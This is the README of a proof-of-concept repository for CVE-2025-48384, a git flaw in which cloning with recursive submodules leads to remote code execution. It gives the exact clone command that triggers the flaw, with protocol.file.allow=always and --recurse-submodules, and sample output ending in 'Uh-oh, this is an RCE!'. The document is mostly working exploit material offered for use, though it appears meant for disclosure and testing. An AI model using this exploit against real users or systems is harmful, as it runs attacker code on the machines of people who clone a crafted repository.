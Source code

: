 # PoC for CVE-2025-48384

See [CVE-2025-48384](https://dgl.cx/2025/07/git-clone-submodule-cve-2025-48384)

To run:
```
git -c protocol.file.allow=always clone --recurse-submodules CVE-2025-48384
```

Example output:
```
git -c protocol.file.allow=always clone --recurse-submodules CVE-2025-48384 test
Cloning into 'test'...
done.
'ubmodule 'sub' (git@github.com:liamg/CVE-2025-48384-submodule.git) registered for path 'sub
'...ing into '/Users/liamg/bad-clone4/sub
remote: Enumerating objects: 5, done.
remote: Counting objects: 100% (5/5), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 5 (delta 0), reused 5 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (5/5), done.
Uh-oh, this is an RCE!
```

